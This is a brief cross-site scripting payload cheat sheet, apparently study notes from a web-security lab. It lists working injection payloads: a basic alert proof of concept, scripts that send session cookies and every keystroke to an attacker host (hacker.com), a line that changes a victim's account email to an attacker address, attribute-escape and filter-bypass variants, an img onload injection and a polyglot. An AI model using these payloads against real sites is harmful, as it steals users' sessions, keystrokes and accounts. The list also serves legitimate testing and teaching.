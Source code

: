* POC:
`<script>alert('XSS');</script>`

* Session stealing:
`<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>`

* Key Logger:
`<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>`

* Business Logic:
`<script>user.changeEmail('attacker@hacker.com');</script>`

* Escaping a value insid a tag (i.e., <h2><input value="value">takeabreath</h2>
`"><script>alert('1')</script>`

* Word Filter bypass:
`<sscriptcript>alert('1');</sscriptcript>`

* img source tag:
`/images/cat.jpg" onload="alert('1');`

* Polyglot
`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('1') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('1')//>\x3e`
